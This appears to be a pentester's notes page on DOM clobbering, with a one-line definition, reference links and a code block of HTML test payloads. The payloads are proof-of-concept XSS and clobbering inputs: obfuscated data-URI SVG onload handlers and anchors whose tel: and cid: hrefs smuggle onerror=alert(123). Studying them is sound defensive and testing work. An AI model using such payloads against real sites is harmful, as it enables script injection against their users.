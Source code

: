 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# DOM clobbering

DOM clobbering is a **technique in which HTML is injected into a page to manipulate the DOM and ultimately change the behavior of JavaScript on the page**

So you can clobber a global variable or property of an object and overwrite it with DOM Node or HTML collection.

[https://www.youtube.com/watch?v=eWD4LH5W2Es](https://www.youtube.com/watch?v=eWD4LH5W2Es)\
[https://www.youtube.com/watch?v=7eZnQgluz1Q\&list=PLWvfB8dRFqba4RedkuUDWMEkAkP8cdZCW](https://www.youtube.com/watch?v=7eZnQgluz1Q\&list=PLWvfB8dRFqba4RedkuUDWMEkAkP8cdZCW)\
[https://www.youtube.com/watch?v=vgBAUvPJnT8](https://www.youtube.com/watch?v=vgBAUvPJnT8)\
[https://www.youtube.com/watch?v=sqlI-Tm-Bpg](https://www.youtube.com/watch?v=sqlI-Tm-Bpg)\
[https://bugology.intigriti.io/intigriti-monthly-challenges/0124](https://bugology.intigriti.io/intigriti-monthly-challenges/0124)\
[https://challenge-0124.intigriti.io/](https://challenge-0124.intigriti.io/)\
[https://github.com/SoheilKhodayari/TheThing](https://github.com/SoheilKhodayari/TheThing)\
[https://domclob.xyz/domc\_wiki/techniques/windowNamedAccess.html](https://domclob.xyz/domc\_wiki/techniques/windowNamedAccess.html)\
[https://portswigger.net/web-security/dom-based/dom-clobbering](https://portswigger.net/web-security/dom-based/dom-clobbering)\
[https://research.securitum.com/xss-in-amp4email-dom-clobbering/](https://research.securitum.com/xss-in-amp4email-dom-clobbering/)

<pre class="language-html"><code class="lang-html"><strong>&#x3C;li>&#x3C;a href="https://example.com">Website&#x3C;/a>&#x3C;/li>
</strong>&#x3C;li>&#x3C;a href="mailto:m.bluth@example.com">Email&#x3C;/a>&#x3C;/li>
&#x3C;li>&#x3C;a href="tel:+123456789">Phone&#x3C;/a>&#x3C;/li>  
&#x3C;li>&#x3C;a href="cid:image-ref">Phone&#x3C;/a>&#x3C;/li>  
&#x3C;math>&#x3C;a xlink:href="//jsfiddle.net/t846h/">click
&#x3C;a href="data:text/html;base64_,&#x3C;svg/onload=\u0061&#x26;#x6C;&#x26;#101%72t(1)>">X&#x3C;/a

//Check how href behave on different attributes

&#x3C;a id="defaultAvatar">&#x3C;a id="defaultAvatar" href="tel:asdf&#x26;quot;onerror=alert(123)//" name="avatar">
&#x3C;a id="defaultAvatar">&#x3C;a id="defaultAvatar" href="cid:asdf&#x26;quot;onerror=alert(123)//" name="avatar">

</code></pre>

[https://portswigger.net/web-security/dom-based](https://portswigger.net/web-security/dom-based)\
